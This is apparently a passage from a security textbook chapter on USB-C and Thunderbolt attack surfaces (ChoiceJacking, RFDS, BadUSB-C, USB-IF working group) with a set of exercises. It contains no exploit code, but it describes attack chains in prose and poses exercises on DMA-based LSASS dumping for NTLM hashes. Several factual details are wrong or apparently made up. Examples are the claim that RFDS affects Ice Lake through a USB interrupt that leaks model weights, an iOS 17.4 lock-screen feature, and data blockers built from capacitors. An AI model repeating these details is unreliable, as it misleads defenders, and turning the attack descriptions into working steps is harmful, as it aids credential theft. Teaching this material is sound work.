USB-C Power Delivery spoofing component: The ChoiceJacking charger uses a spoofed USB Power Delivery contract to negotiate maximum charging power while simultaneously enumerating as an HID device – a combination that legitimate certified chargers cannot legally implement.
-
Mitigation: iOS 17.4 introduced “Restricted Mode at Lock Screen” blocking HID input from non-trusted accessories when the device is locked. Android 14 QPR2 added USB accessory restriction policies via MDM. Hardware-level defence: USB data-blocking cables or condoms (capacitors on D+/D- lines) prevent any HID enumeration while passing power.
Warning: ChoiceJacking demonstrates that the boundary between “charging” and “data” in USB-C is architectural, not physical — a single USB-C cable carries both. Any enterprise policy that permits employees to use public USB-C charging points is accepting ChoiceJacking risk. Hardware USB condoms or wireless Qi charging are the only complete mitigations.
35.18.3 Thunderbolt 5 (Intel Barlow Ridge, 2023) — 120 Gbps and Security¶
Intel Thunderbolt 5 (“Barlow Ridge” controller, first shipped in Intel Core Ultra 200 series systems, late 2023) introduced:
-
120 Gbps maximum bandwidth: Using USB4 Gen 4 (80 Gbps) with Thunderbolt bandwidth boost (“Bandwidth Boost”) allocating all 80 Gbps to a single DisplayPort 2.1 stream, with 120 Gbps achieved via asymmetric allocation (120 Gbps outgoing display + 40 Gbps return).
-
Security improvements: Thunderbolt 5 maintains the TB4 mandatory IOMMU requirement with a new “Authorised Devices only” default that requires user approval for any PCIe tunneling device on first connection. Previous TB4 default allowed PCIe DMA from any connected TB4-certified device without per-connection approval.
-
USB4 v2.0 backwards compatibility: TB5 is fully interoperable with USB4 v2.0, inheriting the updated Type-C Authentication certificate chain requirements.
-
Key firmware: Barlow Ridge firmware 43.0 (Intel TUF – Thunderbolt Update Framework) implements a hardware-verified firmware signature chain: ROM \(\to\) Intel-signed TUF bootloader \(\to\) OEM firmware. The TB5 controller SPI flash is partitioned with write-protected sectors preventing firmware downgrade attacks that affected TB3 (Thunderspy vulnerability #4).
35.18.4 CVE-2023-28746 — RDFS Microarchitectural Data Sampling via USB¶
CVE-2023-28746, disclosed in March 2024 as part of Intel’s Microarchitectural Data Sampling (MDS) vulnerability series, affected Intel Ice Lake and earlier processors:
-
Register File Stale Data Sampling (RFDS): A transient execution attack where stale values in register file storage buffers can be sampled by an attacker process using carefully crafted sequences of floating-point vector operations. The register file content may include encryption keys, passwords, or private data from prior contexts.
-
USB attack vector: An RFDS-capable exploit delivered via a malicious USB HID device (which causes kernel-mode USB interrupt handling on the CPU executing user-space AI inference code) can trigger the data sampling window. The USB interrupt pre-empts the inference thread, leaving stale register file entries with model weight values from the inference computation.
-
Mitigation: Intel microcode update (MCU 20240312) and Linux kernel patch 6.8 (March 2024) flush register file storage buffers on context switch and privilege level transitions involving USB IRQ handlers.
35.18.5 BadUSB-C — Updated Attacks on USB-C Controllers (2023)¶
Researchers at DEF CON 31 (August 2023) demonstrated updated BadUSB techniques targeting USB-C multi-function controllers:
-
Cypress EZ-PD CCG6 (BadUSB-C): The Cypress EZ-PD CCG6 USB-C PD controller (used in many laptop docking stations, monitors, and charging adapters) exposes a UART debug interface accessible via the USB-C SBU1/SBU2 pins. Researchers used the UART interface to flash custom firmware without triggering the host-side USB authentication challenge, because the CCG6 appears as a charger (no enumeration) rather than a data device.
-
Attack chain: Custom CCG6 firmware modifies USB PD contract negotiation to offer maximum VBUS power (up to 20 V / 5 A = 100 W PD 3.1) while also enumerating hidden HID interfaces after the host’s USB authentication timeout window. The attack exploits the race condition between PD contract acceptance and USB authentication challenge.
-
Affected devices: All devices using CCG6 with default debug UART enabled. Cypress released a firmware update disabling UART debug on production silicon.
35.18.6 USB Implementers Forum Security Working Group (2024)¶
USB-IF established a dedicated Security Working Group in 2024 to address the growing attack surface across USB4 v2.0, USB Type-C Authentication, and USB PD 3.2:
-
USB Type-C Authentication Rev. 1.1 (draft 2024): Extended to require certificate revocation list (CRL) or OCSP checking before accepting a device certificate, addressing scenarios where a USB device is stolen and its authentication certificate is revoked.
-
USB PD 3.2 Security Extension: Added AES-128-CCM encrypted PD message authentication for Extended Power Range (EPR) power contracts \(>\)100 W, preventing forged PD messages that could command a vulnerable charger to output destructive voltages.
-
Hardware Certification Test Suite update: USB HCTS 4.0 added security test cases covering IOMMU enforcement timing, Type-C Authentication certificate validation, and BadUSB-class HID injection detection.
35.19 Exercises¶
Exercises
-
A forensic investigator discovers a USB flash drive connected to a corporate laptop. The drive’s USB descriptor reports VID:PID 0781:5581 (SanDisk Cruzer) but USBGuard logs show it presented two interfaces: MSC and HID keyboard. Describe the step-by-step forensic procedure to: (a) safely extract the firmware without executing any code on the analyst’s machine, (b) disassemble the 8051-based firmware to locate the HID descriptor injection code.
-
The O.MG Cable contains an ESP8266 WiFi chip inside the USB connector. (a) An RF spectrum analyser scans the 2.4 GHz band and detects an unknown SSID “OMG-XXXX” with RSSI of -85 dBm from a wall outlet. How can you confirm this is an O.MG cable versus a nearby router? Include the signal characteristics. (b) Design a cable inspection policy for a SCIF (Sensitive Compartmented Information Facility) that prevents O.MG cable use without banning all USB cables.
-
USB Power Delivery 3.1 supports up to 48 V. A USB-C cable with 5 \(\Omega\) resistance per conductor carries the maximum 5 A current. (a) Calculate the voltage drop and power dissipated in the cable. (b) If a malicious PD controller sends a fake EPR_Mode_Enter message requesting 48 V to a device that only supports 20 V, what component in the device receives the overvoltage and what failure mode results?
-
Analyse the seven Thunderspy vulnerabilities. Which three are most critical for a remote software attacker (not requiring physical SPI access), and which requires only 5 minutes of physical access? Propose hardware design changes that Thunderbolt controller vendors could implement to close all seven vulnerabilities.
-
A MemProcFS forensic investigator mounts a victim’s 64 GB RAM as a virtual filesystem via PCILeech DMA. The LSASS process occupies 80 MB of memory. (a) Calculate the time to dump LSASS memory at 1.5 GB/s DMA throughput. (b) The attacker wants to extract NTLM password hashes from the LSASS dump. Describe the memory structure that stores these hashes and the tool used to parse them.
-
USBGuard rules use the
with-interfaceclause to filter on USB class codes. Write USBGuard rules for the following enterprise policy: (a) Allow all USB keyboards (HID, boot protocol) from two specific VID:PIDs, (b) Allow USB audio devices for conference room microphones (no HID component), (c) Block all USB storage, (d) Block any device presenting more than one USB class simultaneously, (e) Default policy for unmatched devices. -
A USB3380-based DMA attack tool uses USB 3.0 (5 Gbps) instead of PCIe. (a) Calculate the maximum DMA throughput achievable via USB 3.0 compared to PCIe Gen 3 x4 (32 Gbps raw), accounting for USB protocol overhead. (b) Why does the USB3380 ASIC provide DMA capability when connected to a USB 3.0 host – describe the internal PCIe-to-USB bridging mechanism.
-
The USB Rubber Ducky uses an ARM Cortex-M0 microcontroller and reads DuckyScript payloads from a microSD card. A corporate policy prohibits all USB HID devices except the registered keyboard. (a) Write the USBGuard rule to enforce this policy. (b) A Rubber Ducky is disguised as a USB flash drive (it only presents as HID after a 30-second delay). How does USBGuard handle this, and what additional control is needed to detect this delayed-enumeration attack?
-
Intel VT-d IOMMU uses a two-level page table for DMA address remapping. A PCIe device in IOMMU domain 3 has an allowed physical address range of 0x80000000 – 0x90000000 (256 MB). The device issues a DMA read request to physical address 0x95000000. Describe the IOMMU hardware behaviour: (a) page table walk steps, (b) fault detection, (c) system response (interrupt, logging, device reset).
-
USB-IF Authentication uses ECDSA P-256 to authenticate USB devices. A cable manufacturer wants to certify 10 million cables per year. Each cable has an embedded microcontroller (ARM Cortex-M0+, 48 MHz) that must sign a 64-byte challenge using ECDSA P-256 within 100 ms. (a) Is 100 ms feasible for a Cortex-M0+ at 48 MHz executing a software ECDSA P-256 implementation? (Typical: 800 ms for software P-256 on M0+.) (b) What hardware acceleration option would meet the 100 ms requirement?
-
A USB device presents the following USB Descriptor tree: bDeviceClass=0x00 (defined per interface), bNumConfigurations=1, Configuration 0: 2 interfaces – Interface 0 (bInterfaceClass=0x08, MSC), Interface 1 (bInterfaceClass=0x0B, Smart Card). (a) Is this a known attack vector? Explain what a Smart Card interface allows an attacker to do on a Windows host with CCID driver loaded. (b) Write the FaceDancer fuzzing test that discovers this behaviour.
-
A corporation wants to implement USB port security on 50,000 Windows workstations using Group Policy and a commercial endpoint DLP solution. Describe the deployment architecture including: (a) GPO settings for USB storage restriction, (b) exception workflow for IT-approved USB devices, (c) audit logging requirements for USB device insertion events, (d) how to handle USB-C docking stations that contain internal USB hubs.